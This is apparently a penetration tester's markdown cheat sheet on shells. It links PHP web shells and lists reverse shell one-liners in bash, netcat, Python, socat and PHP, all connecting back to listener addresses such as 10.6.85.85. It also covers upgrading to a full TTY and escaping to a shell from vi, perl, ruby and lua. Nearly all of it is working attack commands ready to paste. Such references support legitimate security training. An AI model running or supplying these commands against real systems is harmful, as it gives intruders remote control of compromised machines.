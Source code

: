 # Shells 
- [ ] Web shell 
- [ ] Reverse shell commands 
- [ ] Upgrading shells 

## Web shells 
[phpbash web shell](https://github.com/Arrexel/phpbash) 

[pentest monkey php shell](https://github.com/pentestmonkey/php-reverse-shell) 

[pwney web shell]

## Reverse shell commands  
    bash -i >& /dev/tcp/10.6.85.85/4444 0>&1
nc w/ -e (traditional):  

    nc -e /bin/sh 172.16.5.1 4242   
    
nc openbsd (no -e):    

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.6.85.85 53 >/tmp/f    
python: 

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",53));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")' 
    
socat                     

    socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<IP>:4444 
    
PHP            
    
    php -r '$sock=fsockopen("10.6.85.85",4444);exec("/bin/sh -i <&3 >&3 2>&3");' 
   
Also Ruby, Java: Reverse shells cheat sheet    
[Tiberius Reverse Shells](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/reverse-shells.rst) 


Nesting shells      

  bash -p    /bin/sh -p 


## Upgrading to a pseudo terminal / TTY     

    python -c 'import pty;pty.spawn("/bin/bash")' 
    echo os.system('/bin/bash')
    /bin/sh -i  
    
    SHELL=/bin/bash script -q /dev/null        Ctrl-Z        stty raw -echo        fg    reset    xterm
    
    Can you upload a [socat static binary](https://github.com/andrew-d/static-binaries)? 
    
    vi -> :sh or :!UNIX_command
    perl —e 'exec "/bin/sh";' 
    perl: exec "/bin/sh"; 
    ruby: exec "/bin/sh" 
    lua: os.execute('/bin/sh') 
    

